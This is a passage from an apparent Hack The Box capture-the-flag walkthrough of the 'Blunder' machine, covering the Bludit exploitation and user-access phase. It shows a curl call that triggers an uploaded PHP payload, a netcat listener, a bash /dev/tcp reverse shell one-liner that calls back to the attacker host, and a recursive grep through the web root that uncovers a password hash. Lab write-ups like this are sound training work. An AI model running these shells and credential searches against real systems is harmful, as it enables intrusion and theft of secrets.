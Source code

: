 Looks like the payload was successfully uploaded. Now we can browse to the uploaded file and it should execute a reverse shell back to our netcat listener.

```bash
curl http://10.10.10.191/bl-content/tmp/temp/shell.png
```

```bash
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.191] 47730
whoami
www-data
```

## Phase 4: Getting User

The shell that returns from the uploaded file is pretty crummy and dies once the PHP script finishes executing. In order to get a more stable shell, we can create *another* reverse shell from our reverse shell using `bash`.

**Victim**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9000 0>&1'
```

**Kali**

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.191] 37094
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$
```

From here we can [upgrade the shell to a full TTY][tty-shell] to get tab-complete, job control, and control characters parsing correctly.

If we inspect the `/var/www` folder, we can see that there are two separate installations of Bludit. This makes sense given that we saw the TODO list mentioned upgrading the Bludit version.

```bash
www-data@blunder:/var/www$ ls -la
total 20
drwxr-xr-x  5 root     root     4096 Nov 28  2019 .
drwxr-xr-x 15 root     root     4096 Nov 27  2019 ..
drwxr-xr-x  8 www-data www-data 4096 May 19  2020 bludit-3.10.0a
drwxrwxr-x  8 www-data www-data 4096 Apr 28  2020 bludit-3.9.2
drwxr-xr-x  2 root     root     4096 Nov 28  2019 html
```

We can look for credentials from here by using the following command to recursively search through files looking for the string "password".

```bash
www-data@blunder:/var/www$ grep --color=auto -rie "PASSWORD" . --color=always --exclude=\*.{js,css,map,jpeg,jpg}* -B 2 -A 2 2> /dev/null
...
./bludit-3.10.0a/bl-content/databases/users.php:        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
```


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell